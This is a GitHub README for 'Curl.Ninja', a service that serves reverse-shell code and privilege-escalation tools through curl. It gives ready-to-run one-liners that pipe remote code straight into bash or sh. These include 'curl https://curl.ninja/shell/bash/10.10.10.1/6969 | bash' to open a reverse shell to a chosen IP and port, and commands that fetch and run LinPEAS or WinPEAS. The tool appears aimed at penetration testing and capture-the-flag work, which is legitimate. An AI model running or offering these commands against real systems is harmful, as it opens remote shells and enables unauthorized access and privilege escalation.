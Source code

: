 # Curl.Ninja
Shellcode and tools always a `curl` away.

## Shellcode 🐚
Generate and run shellcode one-liners:
```shell
curl https://curl.ninja/shell/LANGUAGE/IP/PORT | bash
```

### Example
```shell
curl https://curl.ninja/shell/bash/10.10.10.1/6969 | bash
```

### Language Support
Thanks to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for the language support:
 - [x] **Bash** via `/bash/`
 - [x] **Java** via `/java/`
 - [x] **Netcat** via `/nc/`
 - [x] **PERL** via `/perl/`
 - [x] **PHP** via `/php/`
 - [x] **Python** via `/python/`
 - [x] **Ruby** via `/ruby/`

## Tools 🛠
Easily download tools from GitHub:
```shell
curl https://curl.ninja/TOOLNAME | sh | sh
curl https://curl.ninja/TOOLNAME | sh > FILENAME
```

### Examples
```shell
curl https://curl.ninja/linpeas | sh | sh
curl https://curl.ninja/winpeas | sh > wp.exe
```

### Available Tools
 - [x] [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) via `/linpeas`
 - [x] [WinPEASx84.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) via `/winpeas`
 - [x] WinPEASx64.exe via `winpeas64`

 If you notice any of your favorite open source tools are missing or your CLI tool of choice is returing `html`, open an [issue](https://github.com/Hack-Church/curl-ninja/issues)

